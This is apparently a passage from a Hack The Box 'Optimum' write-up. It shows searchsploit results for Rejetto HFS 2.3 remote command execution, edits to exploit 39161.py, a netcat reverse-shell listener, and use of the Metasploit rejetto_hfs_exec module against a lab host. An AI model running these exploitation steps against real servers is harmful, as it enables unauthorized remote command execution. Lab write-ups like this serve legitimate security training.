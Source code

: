 ```
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1) | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2) | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------- ----------------------------------
```

So there were multiple exploits available for HFS version 2.3.

The first exploit that I used was this.

```
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2) | windows/remote/39161.py
```

I copied the exploit and named it as exploit.py on my directory. After I copied the exploit, I modified a few lines of codes and entered my IP address and local port number to listen to.

```
root@kali:~/Documents/HTB/Optimum# nano exploit.py

# changed the following lines
ip_addr = "10.10.14.116" #local IP address
local_port = "9999" # Local Port number

root@kali:~/Documents/HTB/Optimum# python exploit.py 
[.]Something went wrong..!
Usage is :[.] python exploit.py <Target IP address> <Target Port Number>
Don't forgot to change the Local IP address and Port number on the script
root@kali:~/Documents/HTB/Optimum# python exploit.py 10.10.10.8 80

# Open new Terminal Tab
root@kali:~/Documents/HTB/Optimum# nc -lvp 9999
```

After running the exploit and opened a new terminal for the netcat listener, I got an access to the shell. This means that the exploit worked, however, I was not able to do other things so I need to have a meterpreter access to run the privilege escalation suggester and use the suggested privesc exploits to have a root access on the system.

Good thing there was a metasploit module of the HFS exploit. So I fired up metasploit and used the exploit.

```
msf > search hfs

Matching Modules
================

Name Disclosure Date Rank Description
 ---- --------------- ---- -----------
 exploit/multi/http/git_client_command_exec 2014-12-18 excellent Malicious Git and Mercurial HTTP Server For CVE-2014-9390
 exploit/windows/http/rejetto_hfs_exec 2014-09-11 excellent Rejetto HttpFileServer Remote Command Execution
```
```
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8
msf exploit(rejetto_hfs_exec) > set SRVPORT 7777
SRVPORT => 7777
msf exploit(rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.116:4444 
[*] Using URL: http://0.0.0.0:7777/YqQuLmjEaXD
[*] Local IP: http://192.168.8.102:7777/YqQuLmjEaXD
```